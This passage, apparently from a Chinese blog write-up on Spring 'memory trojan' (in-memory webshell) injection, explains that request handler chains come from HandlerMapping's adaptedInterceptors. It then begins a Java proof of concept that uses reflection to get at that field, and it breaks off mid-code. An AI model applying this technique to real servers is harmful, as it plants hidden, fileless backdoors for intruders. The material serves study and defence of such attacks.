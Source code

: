     ![image-20250206154307204](Memory-Trojan-Spring/image-20250206154307204.png)
    也就是说，每次请求的 `HandlerExecutionChain` 都是动态获取的，不过其来源本质上还是来自 `HandlerMapping` 的成员变量 `adaptedInterceptors`，那么现在的目标就是对其下手。

### 3.2 PoC

1. 本质就是通过反射修改 `HandlerMapping` 的成员变量 `adaptedInterceptors`，直接上 PoC：
    ```java
    /**
     * 模拟靶场，访问即会触发
     * 
     * @return
     * @throws Exception 
     */
    @ResponseBody
    @GetMapping("/interceptor")
    public String interceptor() throws Exception {
        // 1. 拿到 HandlerMapping
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        if (context == null) {
            return "inject fail!";
        }
        RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        // 2. 通过反射修改其内部变量 adaptedInterceptors
        // 这里注意，要使用父类 AbstractHandlerMapping 的 class
        Field adaptedInterceptorsField = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");